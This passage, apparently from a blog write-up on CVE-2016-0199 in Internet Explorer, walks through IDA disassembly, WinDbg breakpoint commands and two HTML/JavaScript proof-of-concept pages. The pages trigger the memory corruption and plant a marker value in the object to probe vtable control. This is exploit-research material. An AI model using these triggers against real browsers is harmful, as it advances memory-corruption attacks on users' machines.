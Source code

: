 so the address is 0x 10200de2.

In IDA Pro, locate the code:
{% img  /images/blog/vulnerability/cve_2016_0199/4.PNG  [title manually exploit [alt text]] %}

based on the code:

```
.text:10200DE2                 mov     esi, [eax]
.text:10200DE4                 mov     ecx, [esi+44h]  ; void *
.text:10200DE7                 call    ds:___guard_check_icall_fptr
.text:10200DED                 call    dword ptr [esi+44h

```
we can guess, eax has C++ object base address and that address -4 should contain vtable address. To verifiy the assumption. Modify the PoC:


```html
<meta http-equiv="X-UA-Compatible" content="IE=7">
<script>
alert(0);
oElement = document.createElement("IMG");
alert(1);
var oAttr = document.createAttribute("loop");
alert(2);
oAttr.nodeValue = oElement;
alert(3);
CollectGarbage();
</script>
```
We want to set break point at jscript9!JavascriptThreadService::EnumerateTrackingClient+0x59252

however, since the dll is not loaded when we restart debugging. We can use windbg command `sxe ld:modulename` command to break when jscript9.dll first time load, and then we can set the breakpoint on that address.

`sxe ld:jscript9`
`lmm jscript9`
`bp jscript9!JavascriptThreadService::EnumerateTrackingClient+0x59252`
`bl`


{% img  /images/blog/vulnerability/cve_2016_0199/5.PNG  [title manually exploit [alt text]] %}

As you can see, we get the vtable address.

Next rewrite the poc:

```
<meta http-equiv="X-UA-Compatible" content="IE=7">
<script>
alert(0);
oElement = document.createElement("IMG");
alert(1);
var oAttr = document.createAttribute("loop");
alert(2);
oAttr.nodeValue = oElement;
alert(3);
oElement.loop = 0x41424344;
alert(4);
oElement.setAttributeNode(oAttr);
alert(5);
oElement.removeAttributeNode(oAttr);
alert(6);
CollectGarbage();
</script>
```
